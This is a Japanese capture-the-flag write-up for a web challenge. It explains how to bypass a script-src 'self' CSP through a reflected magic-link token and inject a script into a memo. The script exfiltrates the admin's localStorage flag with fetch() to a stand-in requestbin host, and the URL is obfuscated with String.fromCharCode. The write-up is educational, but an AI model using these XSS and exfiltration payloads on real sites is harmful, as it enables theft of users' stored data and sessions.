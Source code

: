 ## 解法

1. メモにローカルストレージを抜き出すscriptを仕込みます

CSP(script-src 'self')が設定されているので単純なscriptタグでは発火しません

マジックリンクでのログインに失敗したときにユーザー入力(トークン)が反映されたレスポンスを返すので、ここでJavascriptを作成して`script src`で読み込みます

よって以下のコードで発火します

```html
<script src="/magic?token=alert(1)//"></script>
```

FLAGは管理者のローカルストレージにセットされているので以下のコードで盗みます

```js
fetch("https://requestbin.example.com/?ctf4bflag="+encodeURI(localStorage.getItem("memo")));
```

しかし`/magic?token=`でトークンがレスポンスに埋め込まれるときにエスケープされます

上記のJavascriptコードではダブルクオートがエスケープされるので`String.fromCharCode`を使って置き換えます

```js
fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,101,113,117,101,115,116,98,105,110,46,101,120,97,109,112,108,101,46,99,111,109,47,63,99,116,102,52,98,102,108,97,103,61)+encodeURI(localStorage.getItem(String.fromCharCode(109,101,109,111))));
```

`+`をurl encodeします

```js
fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,101,113,117,101,115,116,98,105,110,46,101,120,97,109,112,108,101,46,99,111,109,47,63,99,116,102,52,98,102,108,97,103,61)%2BencodeURI(localStorage.getItem(String.fromCharCode(109,101,109,111))));
```

scriptタグに仕込んでメモに書き込みます

```html
<script src="/magic?token=fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,101,113,117,101,115,116,98,105,110,46,101,120,97,109,112,108,101,46,99,111,109,47,63,99,116,102,52,98,102,108,97,103,61)%2BencodeURI(localStorage.getItem(String.fromCharCode(109,101,109,111))));//"></script>
```

2. MagicLink機能でXSSを仕込んだアカウントにログインできるURLを生成します

<https://json.quals.beginners.seccon.jp/magic?token=23ae198f-ba6c-4b06-a4b1-438480578ffb>

3. 2で作成したURLをバグ報告ページで送信し、管理者にアクセスさせます

4. 管理者は送られたリンクを踏む前に自分のアカウントのページでFLAGをメモに書き込みます(途中まで記入したメモをローカルストレージへ保存する機能がついている)

5. 管理者はMagicLinkでXSSを仕込んだアカウントのページに遷移してそこで1のXSSが発火し、途中まで記入したメモが抜き取ることができます
